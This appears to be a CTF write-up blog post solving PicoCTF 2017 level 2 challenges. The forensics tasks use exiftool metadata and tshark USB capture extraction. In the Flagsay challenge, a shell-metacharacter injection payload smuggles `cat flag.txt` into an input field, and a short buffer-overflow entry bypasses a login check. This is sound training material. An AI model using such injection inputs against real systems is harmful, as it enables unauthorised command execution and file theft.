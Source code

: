 ```yaml
---
layout: post
title:  "Write up PicoCTF 2017 level 2"
categories: ctf
---
```


## [Forensics - 70] Meta Find Me

> Find the location of the flag in the image: [image.jpg](https://webshell2017.picoctf.com/static/88ab73fa4f74422fde83acb8773551c3/image.jpg).
Note: Latitude and longitude values are in degrees with no degree symbols,/direction letters, minutes, seconds, or periods.
They should only be digits. The flag is not just a set of coordinates - if you think that, keep looking!

* Use [exiftool](http://www.sno.phy.queensu.ca/~phil/exiftool/):

```bash
exiftool image.jpg
Comment: "Your flag is flag_2_meta_4_me_<lat>_<lon>_978a. Now find the GPS coordinates of this image! (Degrees only please)"
GPS Position: 70 deg 0' 0.00", 73 deg 0' 0.00"
```

## [Forensics - 80] Just Keyp Trying
> Here's an interesting capture of some data. But what exactly is this data? Take a look:
[data.pcap](https://webshell2017.picoctf.com/static/adbda0ec51a267c32beba4692c48dc1b/data.pcap)

* Dump "Leftover Data Capture" from data.pcap file:

```bash
tshark -r data.pcap -T fields -e usb.capdata -Y usb.capdata > data.pcap.txt
```

* Convert hex dump to binary:

```bash
xxd -r -ps data.pcap.txt > data.pcap.bin
```

* Show file information:

```bash
file data.pcap.bin
data.pcap.bin: Targa image data - Map - RLE 65536 x 65536 x 0
```

## [Binary exploitation - 80] Flagsay 1
> I heard you like flags, so now you can make your own! Exhilarating! Use [flagsay-1](https://webshell2017.picoctf.com/static/6dd190d2b0b1cc49fc207bf115052785/flagsay-1)! [Source](https://webshell2017.picoctf.com/static/6dd190d2b0b1cc49fc207bf115052785/flagsay-1.c).
Connect on shell2017.picoctf.com:41875.

Using Metacharater injections:

`FOOL"; cat flag.txt; echo "BAR`

## [Binary exploitation - 80] VR Gear Console
> Here's the VR gear admin console. See if you can figure out a way to log in.
The problem is found here: /problems/1444de144e0377e55e5c7fea042d7f01

Using buffer overflow to overwrite `accessLevel`

Username: `give-me-theshell!`

Password: `noway`

